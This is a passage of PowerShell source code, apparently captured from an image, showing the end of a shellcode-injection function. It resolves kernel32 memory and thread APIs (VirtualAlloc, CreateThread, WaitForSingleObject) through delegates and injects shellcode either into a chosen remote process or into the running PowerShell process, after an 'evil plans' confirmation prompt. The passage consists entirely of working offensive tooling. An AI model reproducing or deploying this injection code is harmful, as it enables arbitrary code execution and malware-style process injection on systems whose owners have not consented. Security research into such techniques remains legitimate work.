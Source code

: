         Write-Verbose "Injecting shellcode into PID: $ProcessId"
        
        if ( $Force -or $psCmdlet.ShouldContinue( 'Do you wish to carry out your evil plans?',
                 "Injecting shellcode injecting into $((Get-Process -Id $ProcessId).ProcessName) ($ProcessId)!" ) )
        {
            Inject-RemoteShellcode $ProcessId
        }
    }
    else
    {
        # Inject shellcode into the currently running PowerShell process
        $VirtualAllocAddr = Get-ProcAddress kernel32.dll VirtualAlloc
        $VirtualAllocDelegate = Get-DelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
        $VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegate)
        $VirtualFreeAddr = Get-ProcAddress kernel32.dll VirtualFree
        $VirtualFreeDelegate = Get-DelegateType @([IntPtr], [Uint32], [UInt32]) ([Bool])
        $VirtualFree = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualFreeAddr, $VirtualFreeDelegate)
        $CreateThreadAddr = Get-ProcAddress kernel32.dll CreateThread
        $CreateThreadDelegate = Get-DelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
        $CreateThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($CreateThreadAddr, $CreateThreadDelegate)
        $WaitForSingleObjectAddr = Get-ProcAddress kernel32.dll WaitForSingleObject
        $WaitForSingleObjectDelegate = Get-DelegateType @([IntPtr], [Int32]) ([Int])
        $WaitForSingleObject = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($WaitForSingleObjectAddr, $WaitForSingleObjectDelegate)
        
        Write-Verbose "Injecting shellcode into PowerShell"
        
        if ( $Force -or $psCmdlet.ShouldContinue( 'Do you wish to carry out your evil plans?',
                 "Injecting shellcode into the running PowerShell process!" ) )
        {
            Inject-LocalShellcode
        }
    }
    
}
